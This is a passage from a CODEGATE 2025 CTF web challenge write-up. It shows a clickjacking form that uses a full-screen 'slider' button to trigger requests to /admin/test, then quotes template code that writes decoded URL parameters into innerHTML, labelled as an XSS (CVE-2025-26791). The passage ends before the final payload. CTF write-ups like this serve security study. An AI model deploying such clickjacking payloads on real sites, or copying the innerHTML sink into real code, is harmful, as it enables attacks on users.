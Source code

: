 When given the `slider` property, the button fills the entire screen.

![<button class="slider"></button>](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%202.png)

<button class="slider"></button>

Now we can send requests to desired URLs through Click Jacking.

```html
<form id="a" action="//localhost:3000/admin/test">
  <input type="text" name="content" value="xxxx" /><button
    id="delete"
    form="a"
    class="slider"
  >
    a
  </button>
</form>
```

### 3. XSS in `/admin/test` (CVE-2025-26791)

Accessing `/admin/test` renders the `test.ejs` file.

```html
<!-- app/views/admin/test.ejs:14:42 -->
<script>
  window.addEventListener("load", async () => {
    const post_title = document.querySelector(".post_title");
    const post_content = document.querySelector(".post_content");
    const error_div = document.querySelector(".error_div");

    const urlSearch = new URLSearchParams(location.search);
    const urlTitle = urlSearch.get("title");
    const urlContent = urlSearch.get("content");

    const result = await fetch("/admin/sanitize", {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        title: atob(urlTitle),
        content: atob(urlContent),
      }),
    });

    const { title, content } = await result.json();

    post_title.innerHTML = title;
    post_content.innerHTML = content;
  });
</script>
```
